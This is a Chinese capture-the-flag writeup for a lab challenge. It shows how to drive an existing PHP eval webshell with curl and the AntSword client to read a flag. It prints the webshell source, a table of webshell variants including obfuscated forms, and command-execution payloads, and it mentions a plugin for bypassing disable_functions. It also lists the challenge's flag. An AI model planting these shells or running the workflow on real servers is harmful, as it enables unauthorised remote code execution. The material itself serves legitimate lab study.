

# NSSCTF · 蚁剑一句话木马 —— Writeup

> 分类：Web（webshell 管理工具）
> 环境：`Apache/2.4.25 (Debian)` + `PHP/5.6.40`（官方 `php:5.6-apache` 镜像）
> 入口：`http://<host>:21119/`
> 做题日期：2026-10-29
> Flag：`NSSCTF{e1380502-e78b-4cc7-a781-3300c753c427}`（动态靶机，重开会变）

---

## 30 秒速查卡

题目给的是**已经存在**的一句话木马，密码写在首页背景图里。考点不是挖漏洞，是**会不会用蚁剑**。

| 蚁剑三要素 | 填什么 | 常见错误 |
|---|---|---|
| URL 地址 | `http://<host>:21119/index.php`（精确到文件） | 只填域名、漏掉文件名 |
| 连接密码 | `wllm`（**裸字段名**） | 填成整句 `@eval($_POST['wllm'])` |
| 连接类型 | `PHP` | 选成 ASP/JSP |

连上后三条命令走人：

```bash
ls -la /
cat /flag
find / -name "flag*" 2>/dev/null
```

---

## 1. 现象：一个几乎空白的首页

```bash
curl -i http://<host>:21119/
```

```
HTTP/1.1 200 OK
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/5.6.40
Content-Length: 104

<html><head><style>body{background:url(caidao.png) top left;background-size:100%;}</style></head></html>
```

两个信号：

- `X-Powered-By: PHP/5.6.40` —— 这个头**只有 PHP 真执行过**才会加；所以首页背后是一个 `.php` 文件
- `caidao.png`（菜刀）—— 题目在明示 webshell 方向

## 2. 提示就在图里

```bash
curl -O http://<host>:21119/caidao.png
```

828×474 的暗色壁纸，正中一行红字：


```
@eval($_POST['wllm'])
```

**这就是全部提示**：一句话木马 + 字段名 `wllm`。

顺便探一圈常见路径：

| 路径 | 结果 | 说明 |
|---|---|---|
| `/`、`/index.php` | 200，同样 104 字节 | 同一个文件 |
| `/caidao.png` | 200，image/png | web 根目录静态文件 |
| `/flag.php`、`/www.zip`、`/robots.txt`、`/.git/config` | 404 | 没有备份/源码泄露 |
| `/.htaccess` | **403** | 陷阱：目录里**根本没有**这个文件，是 Apache 全局规则 `<FilesMatch "^\.ht"> Require all denied` |

> 记住：**403 ≠ 文件存在；404 ≠ 真没有**（可能被 rewrite）。

## 3. 先手工验证，再上工具（重要顺序）

```bash
curl -s -d "wllm=echo 'MARK_OK';" http://<host>:21119/
```

回显末尾出现 `MARK_OK` → **木马可用、密码正确**。

**为什么必须先做这一步**：后面蚁剑连不上时，你能立刻分清是「木马/密码问题」还是「蚁剑配置问题」。

### 对照实验：证明 `wllm` 是字段名而不是口令

| 你发的 | 服务端看到的 `$_POST` | 回显 |
|---|---|---|
| POST，`wllm=echo 'AAA';` | 有 `wllm` | `AAA` ✅ |
| POST，`foo=echo 'BBB';` | 没有 `wllm` | 空 |
| POST，`@eval($_POST['wllm'])=echo 'CCC';` | 字段名变成整串 | 空 |
| GET，`?wllm=echo 'DDD';` | `$_POST` 为空 | 空 |
| POST，空 body | 空 | 空 |

结论：

- 名字错一个字符就**完全没反应，而且不报错**（`@` 压掉了错误）
- `wllm` 是"从哪个字段取代码"，不是"口令值"
- 必须走 **POST**，因为代码写的是 `$_POST`

## 4. 蚁剑连接

### 4.1 添加数据

左侧空白处**右键 → 添加数据**。三个页签只填「基础配置」：

| 字段 | 值 |
|---|---|
| URL 地址 | `http://<host>:21119/index.php` |
| 连接密码 | `wllm` |
| 网站备注 | 随便写（只给自己看） |
| 编码设置 | `UTF-8`（默认） |
| 连接类型 | `PHP`（默认） |

点「测试连接」→ 成功弹 `连接成功!` → 点「添加」。

### 4.2 打开终端

列表里那条记录**右键 → 虚拟终端**。提示符长这样：

```
(www-data:/var/www/html) $
```

> ⚠️ 那个 `$ ` 是**提示符**，不要打进去。你只需要从 `cat` 开始敲。

## 5. 拿 flag

```bash
cat /flag
```

```
NSSCTF{e1380502-e78b-4cc7-a781-3300c753c427}
```

### 命令语法（新手最容易错）

| 输入 | shell 怎么理解 | 结果 |
|---|---|---|
| `cat /flag` | 程序 `cat` + 参数 `/flag` | ✅ |
| `cat/flag` | 程序名叫 `cat/flag` | ❌ not found |
| `$ cat /flag` | 程序名叫 `$` | ❌ not found |
| `cat flag` | 找当前目录下 `flag` | ❌ 不存在，必须 `/flag` |

## 6. 原理复盘

### 6.1 `eval` 就是任意代码执行

```php
@eval($_POST['wllm']);
 ↑      ↑      ↑
 │      │      └── 字段名：从哪个 POST 字段取内容
 │      └───────── PHP 超全局数组，装着 POST 上来的所有字段
 └──────────────── 把字符串当 PHP 代码编译执行；@ 压掉报错
```



> 此图为示意图，用来说明 `$_POST -> eval` 的数据流向。

靶机上木马本体只有 148 字节：

```php
<?php
echo('<html><head><style>body{background:url(caidao.png) top left;background-size:100%;}</style></head></html>');
@eval($_POST['wllm']);
?>
```

### 6.2 「连接密码」这个叫法其实是误导

它要的是**参数名**，不是口令。因为 `eval` 执行的是**值**：

- 本形态：`@eval($_POST['wllm'])` —— 单字段、无校验，门槛只是"知道字段名"
- 真口令形态：`if($_POST['pass']==='x'){ eval($_POST['cmd']); }` —— **两个字段**，
  密码填 `cmd`，还要在「其他设置」里加固定参数 `pass=x`

判断口径记死：

> **`$_POST['…']` / `$_GET['…']` / `$_REQUEST['…']` 引号里那个词 = 连接密码。**

### 6.3 为什么响应里那 104 字节 HTML 不影响蚁剑

蚁剑的载荷（`source/core/php/index.js`）是这么包的：

```php
@ini_set("display_errors","0");
ob_start();                    // 开输出缓冲
try { <你的代码> } catch(...) {}
asoutput();                    // 取出缓冲，套随机 tag 输出
die();
```

`asoutput()` 输出 `随机tag_s + 结果 + 随机tag_e`，客户端（`modules/request.js` 的 `parse()`）按这两个 tag 切片。
HTML 是在 `ob_start()` **之前**吐出去的，落在 tag 外面 → 自动被丢弃。**协议本身免疫**。

### 6.4 虚拟终端到底在干什么

看到 `(www-data:/var/www/html) $`，但它**不是 SSH，也没有 tty**。你每敲一行，蚁剑做的是：

```js
// source/modules/terminal/index.js
return `cd "${path}";${cmd};echo ${stag};pwd;echo ${etag}`;
```

再包成（`core/php/template/command.js`）：

```
/bin/sh -c "cd \"/var/www/html\";cat /flag;echo ...;pwd;echo ..." 2>&1
```

交给 PHP 的 `system()` 在**靶机**上执行（`system` 被禁则退到 `passthru`/`shell_exec`/`exec`/`popen`/`proc_open`）。

推论：

- **每次都是全新的 `sh` 进程**；`cd` 看起来生效，是因为下一行自动补了 `cd "<上次路径>"`
- 环境变量、后台任务都不持久
- **没有 tty** → `vim`、`top`、`ssh` 这类交互命令基本不可用

### 6.5 一个容易误判的点

`get_current_user()` 返回 `root`，但 `id` 显示 `uid=33(www-data)`。
因为 `get_current_user()` 返回的是**脚本文件的属主**，不是进程身份。
**判权限一律用 `id` / `whoami`。**

## 7. 踩坑记录

| 现象 | 原因 | 解决 |
|---|---|---|
| 测试连接报 `返回数据为空` | 密码填了整句 / URL 没到文件 | 先 curl 验证；密码只填 `wllm` |
| 报网络错误 | 动态靶机被回收 | 回题目页重开实例，**地址和 flag 都可能变** |
| 虚拟终端报错 | `system` 被 `disable_functions` 禁用 | 装蚁剑「绕过 disable_functions」插件 |
| 中文乱码 | 编码不匹配 | 编辑数据 → 编码设置改 `UTF-8` |
| 终端敲 `dir`/`type` 没反应 | 那是 Windows 命令，靶机是 Linux | 用 `ls`/`cat` |
| 蚁剑启动报 JS 错误 | `resources\.antSword.json` 里 `workdir` 路径失效 | 改成源码目录绝对路径 |

**万能调试开关**：编辑数据 → 「其他设置」→ 勾**请求信息**，右下角会打印蚁剑发了什么、靶机回了什么。

## 8. 同类题的四种形态

| 形态 | 特征 | 动作 |
|---|---|---|
| 一：木马白送（本题） | 题干/图片/注释里直接给 `@eval(...)` | 用工具连 |
| 二：有上传点，自己传 | 见 [03 篇](03-Web-NSSCTF-文件上传easyupload1.0.md) | 传 → 绕检测 → 访问 → 连 |
| 三：打已知漏洞拿 RCE | ThinkPHP / Shiro / phpMyAdmin | 拿命令执行后**写一个马**再用蚁剑连 |
| 四：变形木马 | 见下表 | 靠读语法破 |

| 写法 | 连接密码 | 蚁剑额外配置 |
|---|---|---|
| `@eval($_POST['pass']);` | `pass` | 无 |
| `@eval($_GET['x']);` | `x` | 请求方式改 GET |
| `@eval($_REQUEST['c']);` | `c` | 无 |
| `@assert($_POST['a']);` | `a` | 仅 PHP < 7 |
| `system($_POST['cmd']);` | `cmd` | 只能跑命令 |
| `$k='xx';@eval($_POST[$k]);` | `xx` | 读出变量再填 |
| `@eval(base64_decode($_POST['z']));` | `z` | **解码器选 base64** |
| `@eval(gzinflate(base64_decode($_POST['z'])));` | `z` | 解码器 base64 + 内容还要解压 |

> 加密型马（**冰蝎 / 哥斯拉**）不能用蚁剑直连，要用对应客户端。

## 9. 一句话总结

1. 题目给的是一张图：`caidao.png` 里写着 `@eval($_POST['wllm'])` —— 木马已存在，密码是字段名。
2. 这题考工具不考漏洞：添加数据 → URL 精确到文件 + 密码填裸字段名 + 类型 PHP → 虚拟终端 `cat /flag`。
3. 真正要记住的方法论：**先 `curl` 手工验证再上工具**；`$_POST['x']` 引号里的词就是密码；响应里的杂字符被蚁剑的随机 tag 机制自动切掉。
